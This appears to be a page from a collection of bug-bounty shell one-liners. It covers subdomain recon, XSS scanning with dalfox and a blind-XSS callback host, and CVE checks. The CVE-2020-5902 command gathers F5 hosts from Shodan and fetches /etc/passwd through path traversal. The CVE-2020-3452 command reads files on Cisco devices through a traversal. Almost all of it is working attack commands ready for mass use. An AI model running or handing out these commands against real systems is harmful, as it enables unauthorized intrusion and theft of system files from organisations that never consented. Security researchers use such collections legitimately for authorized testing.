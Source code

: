 ##### Sort & Tested Domains from Recon.dev
> @stokfedrik

```bash
curl "https://recon.dev/api/search?key=apikey&domain=HOST" |jq -r '.[].rawDomains[]' | sed 's/ //g' | sort -u | httpx -silent
```

##### Subdomain Bruteforcer with FFUF
> @GochaOqradze

```bash
ffuf -u https://FUZZ.HOST -w FILE.txt -v | grep "| URL |" | awk '{print $4}'
```
### XSS
> @cihanmehmet

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

> @fanimalikhack

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

> @oliverrickfors

```bash
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

### SQLi

### CVE

##### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

##### CVE-2020-3452
> @vict0ni

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```
